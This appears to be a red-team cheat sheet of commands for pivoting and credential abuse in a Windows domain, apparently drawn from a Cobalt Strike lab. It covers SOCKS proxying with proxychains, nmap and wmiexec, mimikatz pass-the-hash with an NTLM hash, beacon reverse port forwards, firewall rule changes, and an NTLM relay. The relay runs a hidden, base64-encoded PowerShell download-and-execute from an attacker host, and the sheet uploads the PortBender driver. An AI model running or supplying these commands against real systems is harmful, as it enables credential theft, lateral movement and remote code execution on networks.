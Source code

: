```powershell
# Configure Proxychains in Linux
$ sudo vim /etc/proxychains.conf
socks5 127.0.0.1 1080 socks_user socks_password

$attacker@ubuntu ~> proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30

# Use Proxifier for Windows environment
ps> runas /netonly /user:dev/bfarmer mmc.exe
ps> mimikatz # privilege::debug
ps> mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
PS C:\Users\Attacker> $cred = Get-Credential
PS C:\Users\Attacker> Get-ADComputer -Server 10.10.122.10 -Filter * -Credential $cred | select

# Use FoxyProxy plugin to access Webportal via SOCKS Proxy

# Reverse Port Forward (if teamserver is not directly accessible, then use rportfwd to redirect traffic)
beacon> rportfwd 8080 127.0.0.1 80
beacon> run netstat -anp tcp
ps> iwr -Uri http://wkstn-2:8080/a

beacon> powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080
beacon> powershell Remove-NetFirewallRule -DisplayName "Test Rule"

# NTLM Relay

1. Setup SOCKS Proxy on the beacon
beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging

2. Setup Proxychains to use this proxy
$ sudo vim /etc/proxychains.conf
socks5 127.0.0.1 1080 socks_user socks_password

3. Use Proxychain to send NTLMRelay traffic to beacon targeting DC and encoded SMB Payload for execution
$ sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAyADMALgAxADAAMgA6ADgAMAA4ADAALwBiACIAKQA='

# iex (new-object net.webclient).downloadstring("http://10.10.123.102:8080/b")

4. Setup reverse port forwarding
beacon> rportfwd 8080 127.0.0.1 80
beacon> rportfwd 8445 127.0.0.1 445

5. Upload PortBender driver and load its .cna file
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445

6. Manually try to access share on our system or use MSPRN, Printspooler to force authentication

7. Verify the access in weblog and use link command to connect with SMB beacon
beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```
### Data Protection API
```powershell
# Use mimikatz to dump secrets from windows vault
```